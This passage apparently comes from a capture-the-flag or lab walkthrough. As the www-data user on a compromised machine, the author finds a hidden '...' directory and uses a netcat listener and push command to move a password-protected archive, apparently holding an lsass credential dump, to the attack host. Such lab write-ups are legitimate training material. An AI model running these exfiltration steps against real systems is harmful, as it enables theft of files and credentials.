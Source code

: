 ```bash
www-data
```

We can start enumerating the target. We can see that the is an uncommon  directory named **...** in the root directory of the file system.
```bash
cd / 
ls -la
total 72
drwxr-xr-x  19 root root  4096 Jan 15  2023 .
drwxr-xr-x  19 root root  4096 Jan 15  2023 ..
drwxr-xr-x   2 root root  4096 Jan 18  2023 ...
lrwxrwxrwx   1 root root     7 Jan 15  2023 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Jan 15  2023 boot
drwxr-xr-x  17 root root  3140 Sep 12 06:45 dev

<SNIP>
```

When we access this directory, we will see an old archive file that belongs to the www-data user.
```bash
cd ...
ls -l
total 12100
-rw------- 1 www-data www-data 12387024 Jan 18  2023 old_files.zip
```
We can transfer this file to our attack host for further analyses. We can do this by starting a Netcat listener on our attack host and pushing the file from the target to our listener using Netcat.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$nc -lvnp 8000 > old_files.zip
listening on [any] 8000 ...
```

```bash
nc -q 0 10.0.2.15 8000 < old_files.zip
```

```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$nc -lvnp 8000 > old_files.zip
listening on [any] 8000 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.6] 43866

┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ls
custom-list.txt old_files.zip
```
This file appears to be password protected. Hence, we can't extract it without having the password.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─└─$7z e old_files.zip 

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=C.UTF-8 Threads:2 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 12387024 bytes (12 MiB)

Extracting archive: old_files.zip
--
Path = old_files.zip
Type = zip
Physical Size = 12387024

Enter password (will not be echoed):
ERROR: Wrong password : lsass.DMP
```